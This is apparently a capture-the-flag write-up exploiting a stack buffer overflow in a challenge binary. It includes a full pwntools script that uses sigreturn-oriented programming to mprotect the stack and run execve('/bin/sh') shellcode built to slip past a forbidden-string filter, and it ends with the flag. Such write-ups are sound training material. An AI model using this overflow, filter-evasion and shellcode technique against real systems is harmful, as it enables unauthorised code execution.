



# Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:



---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.



---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**



---

## Static Analysis

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
exe = context.binary = ELF('./main')

def start(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

gdbscript = 'continue\n'

io = start()

# Leak buf and vuln addresses
io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
buf_addr = int(leak_vals[0], 16)
vuln_addr = int(leak_vals[1].strip()[:-1], 16)

log.success(f"buf @ {hex(buf_addr)}")
log.success(f"vuln @ {hex(vuln_addr)}")

# Calculate PIE base
exe.address = vuln_addr - exe.sym['vuln']
log.success(f"PIE base @ {hex(exe.address)}")

# Set up ROP and gadgets
rop = ROP(exe)
syscall_gadget = rop.find_gadget(['syscall'])[0]

# Page-align stack address
page_size = 0x1000
aligned_stack = buf_addr & ~(page_size - 1)

# Create SigreturnFrame for mprotect
frame = SigreturnFrame()
frame.rax = 10                 # mprotect
frame.rdi = aligned_stack      # addr
frame.rsi = page_size          # len
frame.rdx = 7                  # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rsp = buf_addr           # pivot back to shellcode
frame.rip = syscall_gadget     # syscall; ret

# Custom shellcode (no forbidden strings)
shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  # "//bin/sh"
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 59                  # execve syscall
    syscall
''')

# Build payload
offset = 16
payload = p64(buf_addr + 8)         # new RIP (skip over dummy value)
payload += shellcode
payload += b'\x90' * (72 - len(payload))  # NOP padding
payload += p64(syscall_gadget)      # trigger sigreturn
payload += bytes(frame)             # actual frame

# Send payload
io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)
io.interactive()
```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
